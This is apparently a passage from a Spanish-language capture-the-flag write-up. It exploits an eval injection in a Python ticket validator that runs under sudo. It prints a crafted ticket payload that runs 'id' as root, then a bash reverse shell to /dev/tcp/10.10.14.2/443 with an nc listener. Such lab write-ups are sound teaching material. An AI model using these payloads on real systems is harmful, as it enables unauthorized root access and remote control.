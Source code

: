 En el archivo `gzzcoo.md` que se presenta a continuación, intentamos explotar la vulnerabilidad en la función `eval` del script `ticketValidator.py`. Al introducir una expresión maliciosa como parte del código del ticket, podemos ejecutar comandos arbitrarios en el sistema.

Aquí, hemos modificado el `Ticket Code` para incluir un comando Python que invoca la función `os.system('id')`, lo cual ejecuta el comando `id` en el sistema operativo. Esta es una forma de aprovechar la vulnerabilidad en el uso de `eval` que no sanitiza la entrada.

{% code title="gzzcoo.md" %}
```markdown
# Skytrain Inc
## Ticket to Exploitville
__Ticket Code:__
**4+__import__('os').system('id')**
##Issued: 2025/03/03
#End Ticket
```
{% endcode %}

Al ejecutar el script `ticketValidator.py` con un archivo de ticket malicioso, observamos que se ejecuta el comando `id` a través de la vulnerabilidad en la función `eval`. El resultado muestra que, aunque el script indica "Invalid ticket", el comando `id` sigue ejecutándose, revelando que el sistema está corriendo con privilegios de `root`.

```bash
development@bountyhunter:/tmp$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/gzzcoo.md
Destination: Exploitville
uid=0(root) gid=0(root) groups=0(root)
Invalid ticket.
```

Dado que tenemos permisos de sudoers, y en el punto anterior comprobamos que el resultado del comando `id` era `root`, si conseguimos ejecutar la reverse shell, obtendremos una shell como el usuario `root`. Esto se debe a que el script `ticketValidator.py` se ejecuta con privilegios de `root`, lo que nos permite ejecutar comandos con estos privilegios sin restricciones. Así, al inyectar el comando de la reverse shell en el ticket, la ejecución nos otorgará acceso a la máquina como `root`.

{% code title="gzzcoo.md" %}
```markdown
# Skytrain Inc
## Ticket to Exploitville
__Ticket Code:__
**4+__import__('os').system('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"')**
##Issued: 2025/03/03
#End Ticket
```
{% endcode %}

Nos ponemos en escucha ocn `nc` para recibir la conexión de la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```
